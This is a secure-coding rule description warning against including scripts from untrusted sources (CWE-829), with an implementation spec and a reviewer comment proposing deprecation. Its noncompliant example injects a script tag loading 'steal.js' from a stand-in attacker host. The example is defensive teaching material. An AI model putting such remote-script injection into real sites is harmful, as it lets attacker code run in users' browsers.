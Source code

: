 == Why is this an issue?

Including content in your site from an untrusted source can expose your users to attackers and even compromise your own site. For that reason, this rule raises an issue for each non-relative URL.


=== Noncompliant code example

[source,javascript]
----
function include(url) {
  var s = document.createElement("script");
  s.setAttribute("type", "text/javascript");
  s.setAttribute("src", url);
  document.body.appendChild(s);
}
include("http://hackers.com/steal.js")  // Noncompliant
----

== Resources

* OWASP - https://owasp.org/www-project-top-ten/2017/A1_2017-Injection[Top 10 2017 Category A1 - Injection]
* CWE - https://cwe.mitre.org/data/definitions/829[CWE-829 - Inclusion of Functionality from Untrusted Control Sphere]


ifdef::env-github,rspecator-view[]

'''
== Implementation Specification
(visible only on this page)

=== Message

Remove this content from an untrusted source.


=== Parameters

.domainsToIgnore
****

Comma-delimited list of domains to ignore. Regexes may be used, E.G. (.*\.)?example\.com,foo\.org
****


'''
== Comments And Links
(visible only on this page)

=== deprecates: S1829

=== on 10 Jan 2020, 10:14:47 Eric Therond wrote:
Should be deprecated:

* No compliant solution to propose
* Could be noisy <img src="http://example.com/pic.gif"> or <script src=\http://example.com/jquery.js> is pretty common
* Could be replaced by a more relevant taint analysis rule in the future

endif::env-github,rspecator-view[]
